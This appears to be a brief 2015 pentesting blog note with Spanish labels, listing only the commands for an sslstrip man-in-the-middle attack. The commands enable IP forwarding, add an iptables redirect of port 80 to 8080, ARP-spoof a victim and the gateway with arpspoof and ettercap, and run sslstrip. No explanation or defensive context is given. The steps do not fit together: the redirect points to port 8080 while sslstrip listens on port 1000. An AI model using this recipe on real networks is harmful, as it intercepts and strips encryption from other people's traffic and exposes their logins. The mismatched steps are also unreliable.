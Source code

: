```yaml
---
title: sslstrip
description: 
date: 2015-09-04
lastmod: 2015-09-04
slug: ssltrip2
image: "covers/pentesting.png"
tags:
  - sslstrip
categories:
  - Pentesting
---
```



`sysctl -w net.ipv4.ip_forward=1`


`cat /proc/sys/net/ipv4/ip_forward`


`echo 1 > /proc/sys/net/ipv4/ip_forward`


`iptables -t nat -A PREROUTING -i eth0 -p tcp --destination-port 80 -j REDIRECT --to-port 8080`


######opcional
`arpspoof -i eth0 -t 192.168.1.2 192.168.1.1`


######otra pestaña
`python sslstrip.py -l 1000`


######otra pestaña
`ettercap -Tq -i eth0` o `ettercap -T -q -i eth0 -M arp // //`
